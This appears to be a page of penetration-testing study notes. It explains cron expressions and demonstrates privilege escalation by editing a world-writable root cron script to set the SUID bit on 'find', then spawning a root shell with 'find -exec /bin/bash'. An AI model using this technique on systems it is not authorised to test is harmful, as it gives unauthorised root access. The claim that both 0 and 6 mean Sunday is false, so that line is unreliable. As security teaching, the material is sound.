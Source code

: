 # 4.4.3 CronJobs

## CronJobs

<details>

<summary>What is a CronJob?</summary>

**CronJobs** is a scheduled task or command that is automatically executed at specified intervals on a Unix-like operating system. The name "cron" comes from the Greek word "chronos," meaning time, and it is a time-based job scheduler in Unix-like operating systems.

Cron jobs are commonly used for automating repetitive tasks, system maintenance, or any task that needs to be performed at specific intervals. These tasks can include things like running scripts, backing up data, updating databases, or any other routine maintenance.

The schedule for a cron job is defined using a cron expression, which consists of five fields representing the minute, hour, day of the month, month, and day of the week. For example, a cron expression like "0 2 \* \* \*" would indicate a job that runs at 2:00 AM every day.

Here is a breakdown of the cron expression fields:

1st \*: Minute (0 - 59)

2nd \*: Hour (0 - 23)

3rd \*: Day of the month (1 - 31)

4th \*: Month (1 - 12)

5th \*: Day of the week (0 - 6, where both 0 and 6 represent Sunday).

After this there's a username (root) and path of command to execute (program path) and eventually an argument (arg1).

</details>

#### Example of CronJob definition

<figure><img src="../../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

This is an example of CronJob in python language that execute a bash command on the system:

```python
#!/usr/bin/env python
import os
import sys
try:
   os.system('rm -r /home/new_user/disk_clean* ')
except:
    sys.exit()
```

E.g. considering that CronJob has maximum permissions (777):

```bash
*/1 *   * * *   root    /home/new_user/disk_cleaner.py
```

we can modify python script cronjob and execute command to escalate privilege for a normal user:

os.system(~~'rm -r /home/new\_user/disk\_clean\* ')~~ -> 'chmod u+s /usr/bin/find '

waiting 1 minute new\_user obtain SUID permissions for find command (ls -l /usr/bin/find) and executing **`find`** command we'll gain root privilege:

```bash
find /home -exec "/bin/bash" \;
```

